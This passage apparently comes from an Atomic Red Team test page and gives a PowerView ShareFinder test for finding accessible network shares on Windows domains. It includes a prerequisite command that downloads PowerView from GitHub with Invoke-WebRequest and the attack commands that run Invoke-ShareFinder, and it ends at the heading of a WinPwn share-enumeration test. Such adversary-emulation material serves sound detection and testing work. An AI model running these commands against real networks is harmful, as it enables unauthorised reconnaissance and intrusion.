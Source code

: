


<br/>
<br/>

## Atomic Test #8 - PowerView ShareFinder
PowerView is a PowerShell tool to gain network situational awareness on Windows domains. ShareFinder finds (non-standard) shares on machines in the domain.

**Supported Platforms:** Windows


**auto_generated_guid:** d07e4cc1-98ae-447e-9d31-36cb430d28c4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parameters | ShareFinder parameter | string | -CheckShareAccess|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Invoke-ShareFinder #{parameters}
```




#### Dependencies:  Run with `powershell`!
##### Description: Invoke-ShareFinder module must exist in %TEMP% directory
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/darkoperator/Veil-PowerView/8784e33f17ee7543ba2f45e27dc5f08ea3a1b856/PowerView/powerview.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
```




<br/>
<br/>

## Atomic Test #9 - WinPwn - shareenumeration
Network share enumeration using the shareenumeration function of WinPwn
